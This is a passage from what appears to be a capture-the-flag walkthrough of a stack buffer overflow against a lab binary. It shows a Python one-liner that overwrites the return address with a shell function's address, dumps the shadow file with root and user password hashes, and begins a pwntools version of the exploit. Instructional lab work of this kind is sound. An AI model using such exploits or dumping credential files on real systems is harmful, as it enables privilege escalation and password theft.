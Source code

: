 44 characters need to be provided, then "0x080484cb" and the shell function should execute.

Modern CPU architectures are little endian, meaning that bytes are backwords - "0x080484cb" becomes "cb840408"

```bash
pingu@ubuntu:~$ python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
```

Now we have output of the shadow backup, and this can be used in order to crack the root users password.

## Binary Exploitation: The pwntools way

Pwntools is a python library dedicated to making this from of attack much simpler.

```python
from pwn import *
proc = process('/opt/secret/root')
```

This imports the all the utilities from the pwntools library and creates a process that can be interacted with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF(). ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.
